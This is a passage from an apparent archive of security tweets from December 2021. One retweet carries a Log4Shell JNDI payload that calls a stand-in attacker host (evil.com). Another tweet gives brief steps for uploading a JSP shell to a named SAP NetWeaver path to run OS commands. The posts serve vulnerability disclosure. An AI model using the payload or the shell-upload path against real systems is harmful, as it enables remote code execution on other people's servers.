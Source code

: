 <td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1473247788838551554 _at 2021-12-21, 11:03:39_**
<blockquote>
RT @zapstiko: 📢 #Log4j Vulns ~ @1ZRR4H

1) CVE-2021-44228 (RCE) - Critical
Payload: ${jndi:ldap://evil[.]com:1389/a}

2) CVE-2021-45046 (RC…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>149</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1472929717938532353 _at 2021-12-20, 13:59:45_**
<blockquote>
🐞 PoC for a Post-Auth RCE (CVE-2021-38163) in SAP NetWeaver. The vulnerability was found by our researcher Mikhail Klyuchnikov.

Reproduction steps:
1. Upload a jsp shell using the /irj/servlet/prt/portal/prtroot/com.sap.visualcomposer.VCParMigrator path
2. Execute OS commands https://t.co/iHqgYnT2lA
</blockquote>

<table><tr>